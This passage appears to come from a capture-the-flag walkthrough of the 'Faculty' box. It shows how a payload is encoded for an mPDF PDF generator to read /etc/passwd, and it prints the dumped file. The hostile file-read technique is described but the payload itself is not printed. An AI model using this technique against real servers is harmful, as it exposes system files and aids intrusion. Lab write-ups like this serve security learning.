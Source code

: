 Examining the POST request to MPDF that generates the PDF file, it appears the data is base64 encoded, and then double URL encoded.

![faculty9](/images/faculty9.png)

```html
<h1><a name="top"></a>faculty.htb</h1><h2>Courses</h2><table>	<thead>		<tr>			<th class="text-center">#</th>			<th class="text-center">Course</th>			<th class="text-center">Description</th>			</tr></thead><tbody><tr><td class="text-center">1</td><td class="text-center"><b>Information Technology</b></td><td class="text-center"><small><b>IT</b></small></td></tr><tr><td class="text-center">2</td><td class="text-center"><b>BSCS</b></td><td class="text-center"><small><b>Bachelor of Science in Computer Science</b></small></td></tr><tr><td class="text-center">3</td><td class="text-center"><b>BSIS</b></td><td class="text-center"><small><b>Bachelor of Science in Information Systems</b></small></td></tr><tr><td class="text-center">4</td><td class="text-center"><b>BSED</b></td><td class="text-center"><small><b>Bachelor in Secondary Education</b></small></td></tr></tboby></table>
```

Let's take our payload from the GitHub issue, double URL encode it, then base64 encode it, and send it to MPDF to see what happens. It appears we successfully grabbed `/etc/passwd` and it was attached to the PDF file.

![faculty10](/images/faculty10.png)

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
